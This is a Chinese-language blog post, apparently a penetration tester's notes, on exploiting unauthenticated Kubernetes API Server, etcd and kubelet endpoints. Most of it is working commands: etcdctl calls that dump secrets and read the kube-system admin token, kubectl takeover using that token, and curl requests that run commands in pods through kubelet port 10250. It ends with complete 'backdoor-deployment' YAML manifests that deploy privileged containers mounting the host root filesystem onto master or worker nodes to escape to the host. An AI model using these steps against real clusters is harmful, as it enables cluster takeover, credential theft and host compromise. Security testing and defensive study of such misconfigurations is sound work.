


最近测试了一些真实的云原生场景，记录一下比较常见和危害较高的漏洞利用。


<!-- more -->


## 1. Kubernetes API Server 未授权访问

### 1.1 漏洞判断

老版本的Kubernetes API Server端口是8080，通过HTTP即可访问，新版本Kubernetes API Server端口是6443，通过HTTPS访问。一般是这两个端口，但也不排除用80、8080等其他非标准端口。

如果存在未授权漏洞，则会出现如下类似页面

 

如何判断存在该漏洞呢，可以访问`/pods` 或者`/apis`等路径来确定。如果不存在该漏洞，则需要认证，访问就会出现`Unauthorized`，`forbidden: User \"system:anonymous\" cannot get path`等提示。

### 1.2 漏洞利用

如果存在Kubernetes API Server未授权访问，意味着可以控制整个集群，危害是相当大的。

**下载kubectl**

```
#https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/

curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
```

**尝试读取集群节点**

```
./kubectl -s https://ip:6443 --insecure-skip-tls-verify get nodes
```

如果读取节点成功，则就可以执行常规的kubectl命令。比如查看pods、部署特权容器等等。<font color="red">如果是https，需要认证，如果是开了匿名访问，随便输入账号密码就可以认证成功</font>


## 2. ETCD未授权访问

etcd端口默认是2379，如果配置不当则存在未授权访问，如果存在未授权访问我们可以获取到集群的凭证等重要信息，进而控制集群


### 2.1 漏洞判断

**安装客户端工具**

直接在github上下载，解压后里面就有etcdctl

```
https://github.com/etcd-io/etcd/releases
```

判断是否存在未授权访问我们可以执行如下命令

```
./etcdctl --insecure-transport=false --insecure-skip-tls-verify --endpoints=ip:port get / --prefix
```


### 2.2 漏洞利用

漏洞利用，我们可以读取kubernetes的 kube-system admin账号的token，从而接管集群

**查看有哪些secrets**

```
./etcdctl --insecure-transport=false --insecure-skip-tls-verify --endpoints=ip:port get / --prefix --keys-only | grep /secrets/
```

**如果存在/registry/secrets/kube-system/admin-user-token-xxx，我们就可以读出token**

```
./etcdctl --insecure-transport=false --insecure-skip-tls-verify --endpoints=ip:port get /registry/secrets/kube-system/admin-user-token-xxx
```

**通过token就可以使用kubectl接管集群了**

```
kubectl --insecure-skip-tls-verify -s https://ip:6443 --token "$toekn" get nodes
```


## 3. Kubelet未授权访问


Kubelet 是与master中的kube-apiserver做交互的组件，接受master发送的消息，然后做对应处理。10250端口是kubelet与apiserver进行通信的主要端口，所以我们在做测试的时候主要探测10250端口，此外还有10255端口可以查看Pods信息等。

### 3.1 10255端口kubelet未授权访问

可以通过访问10255端口的`/pods`路径来确定是否存在该漏洞

 


### 3.2 10250端口未授访问导致命令执行

同样我们可以访问10250的`/pods`路径来判断是否存在该漏洞


我们可以使用kubeletctl工具：https://github.com/cyberark/kubeletctl，注意区分不是kubectl，kubectl用于与api server交互，kubeletctl用于与kubelet服务交互

**使用这个工具我们可以执行如下命令查看POD  NAMESPACE CONTAINERS**

```
./kubeletctl_linux_amd64 pods -s ip --port 10250
```

比如我们查到的信息如下

| POD               | NAMESPACE   | CONTAINERS                 |
| ----------------- | ----------- | -------------------------- |
| trace-a-lb-9fdfa  | kube-system | trace-a-df                 |
| calico-node-g8ack | kube-system | calico-node<br>install-cni |

**通过查到的信息，构造使用如下命令可以在指定Pod里执行命令**

```
curl -k https://ip:10250/run/$NAMESPACE/$POD/$CONTAINERS -d "cmd=whoami" --insecure
```

也即(这里我们使用的容器是install-cni，而不是calico-node，一个pod可以对应多个容器)

```
curl -k https://ip:10250/run/kube-system/calico-node-g8ack/install-cni -d "cmd=whoami" --insecure
```

进入容器后，就可以读取token，使用env命令获取api server地址，然后使用token访问api server。


## 4.  控制集群

除了kubelet未授权访问获取到的token权限较低外，Kubernetes API   Server未授权访问以及etcd未授权访问都可以通过后续操作控制集群，方式如下。

我们可以部署一个特权容器，然后逃逸到宿主机上，我们可以将部署的容器的污点调到master上，从而将特权容器部署到master节点上，逃逸出去就直接获取到了master节点的权限。


### 4.1 部署到普通节点上

```
kubectl -s https://ip:6443 --insecure-skip-tls-verify apply -f backdoor-deployment .yaml

#如果是token也可以使用kubectl --token
```

- backdoor-deployment.yaml

```yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  name: backdoor-deployment
  labels:
    app: backdoor-deployment
spec:
  replicas: 1
  selector:
    matchLabels:
      app: backdoor-deployment
  template:
    metadata:
      labels:
        app: backdoor-deployment
    spec:
      containers:
      - name: nginx
        image: nginx:1.14.2
        ports:
        securityContext:
          privileged: true
          capabilities:
            add:
            - SYS_ADMIN
        volumeMounts:
          - name: rootfs
            mountPath: /host
      volumes:
        - name: rootfs
          hostPath:
            path: /
```


### 4.2 部署到master节点上

- backdoor-deployment-master.yaml

```yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  name: backdoor-deployment
  labels:
    app: backdoor-deployment
spec:
  replicas: 1
  selector:
    matchLabels:
      app: backdoor-deployment
  template:
    metadata:
      labels:
        app: backdoor-deployment
    spec:
      tolerations:
      - key: node-role.kubernetes.io/master
        operator: Exists
        effect: NoSchedule
      affinity:
        nodeAffinity:
          requiredDuringSchedulingIgnoredDuringExecution:
            nodeSelectorTerms:
            - matchExpressions:
              - key: node-role.kubernetes.io/master
                operator: Exists
      containers:
      - name: nginx
        image: nginx:1.14.2
        ports:
        securityContext:
          privileged: true
          capabilities:
            add:
            - SYS_ADMIN
        volumeMounts:
          - name: rootfs
            mountPath: /host
      volumes:
        - name: rootfs
          hostPath:
            path: /
```

顺便记录一下滑动到非master节点

- backdoor-deployment-slave.yaml

```yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  name: backdoor-deployment
  labels:
    app: backdoor-deployment
spec:
  replicas: 1
  selector:
    matchLabels:
      app: backdoor-deployment
  template:
    metadata:
      labels:
        app: backdoor-deployment
    spec:
      tolerations:
      - key: node-role.kubernetes.io/master
        operator: Exists
        effect: NoSchedule
      affinity:
        nodeAffinity:
          requiredDuringSchedulingIgnoredDuringExecution:
            nodeSelectorTerms:
            - matchExpressions:
              - key: node-role.kubernetes.io/master
                operator: DoesNotExist
      containers:
      - name: nginx
        image: nginx:1.14.2
        ports:
        securityContext:
          privileged: true
          capabilities:
            add:
            - SYS_ADMIN
        volumeMounts:
          - name: rootfs
            mountPath: /host
      volumes:
        - name: rootfs
          hostPath:
            path: /
```


